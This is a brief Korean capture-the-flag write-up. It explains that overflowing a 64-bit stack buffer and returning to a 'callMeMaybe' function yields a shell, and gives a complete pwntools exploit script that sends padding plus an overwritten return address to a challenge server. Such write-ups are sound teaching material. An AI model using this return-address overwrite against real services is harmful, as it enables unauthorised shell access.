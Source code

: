 # x64 Buffer Overflow

간단한 BOF 문제이다.   
64bit 환경에 맞춰줘야하며, callMeMaybe 함수를 호출하면 shell을 획득할 수 있다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = ''
payload += '\x90'*0x110
payload += '\x90'*0x8
payload += p64(0x0000000000400606)

p.sendline(payload)

p.interactive()
```
